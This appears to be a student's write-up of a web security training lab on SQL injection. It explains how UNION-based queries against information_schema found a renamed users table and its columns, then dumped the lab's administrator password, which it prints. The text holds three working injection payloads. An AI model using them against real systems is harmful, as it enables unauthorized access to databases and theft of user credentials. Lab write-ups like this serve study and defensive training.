 # Lab 9
##### SQL injection attack, listing the database contents on non-Oracle databases

In this exercise, the user needs to be able to list all tables in the database and find the `users` table. From here we then need to find find what columns `users` table has in order to access the credentials to the `administrator` user. Luckily I practically already completed this exercise back in lab 5.

![1](assets/1.png)

Using techniques in earlier exercises I quickly worked out that the 2 injectable columns are strings.
By querying the information_schema and filtering out the results by the table_schema with the following payload `'+union+select+table_name,null+from+information_schema.tables+where+table_schema+=+'public'--` I found that the users table had been renamed to `users_nvuacg`
![2](assets/2.png)

Using the table name I found I then created the following query to discover the new username column field names `'+union+select+column_name,null+from+information_schema.columns+where+table_name+=+'users_nvuacg'--`.

The results from this query showed that the usernamed and passwor field has been renamed to `username_awqbgt` and `password_etfper`.
![3](assets/3.png)

Using this information I constructed the following query and retrieved the admin password `'+union+select+username_awqbgt,password_etfper+from+users_nvuacg--`.
![4](assets/4.png)

```bash
credentials

username: Administrator
password: g2fsxu3vyh0xpswp6mc5
```

Below shows that I successfully login.
![5](assets/5.png)